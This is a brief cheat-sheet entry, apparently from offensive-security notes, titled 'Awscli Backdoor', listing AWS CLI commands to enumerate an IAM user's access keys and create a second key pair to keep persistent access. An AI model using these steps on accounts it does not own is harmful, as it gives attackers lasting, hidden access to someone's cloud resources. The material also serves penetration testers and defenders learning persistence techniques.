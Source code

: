 # Awscli Backdoor

### List access keys for a user

 - aws iam list-access-keys --user-name USERNAME

### Backdoor account with second set of access keys

 - aws iam create-access-key --user-name USERNAME
